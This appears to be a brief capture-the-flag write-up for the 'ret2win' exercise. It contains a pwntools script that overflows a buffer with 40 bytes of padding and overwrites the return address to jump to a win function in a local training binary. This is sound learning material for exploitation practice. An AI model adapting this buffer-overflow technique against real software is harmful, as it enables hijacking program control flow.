 # ret2win
standard ret2win exploit, not much new to write.

```text-x-python
from pwn import *

binary = './ret2win'
elf = ELF(binary)

payload = b"A"*40
payload += p64(elf.symbols.ret2win)

io = process(binary)

io.recvuntil(b'> ')
io.sendline(payload)

io.interactive()
```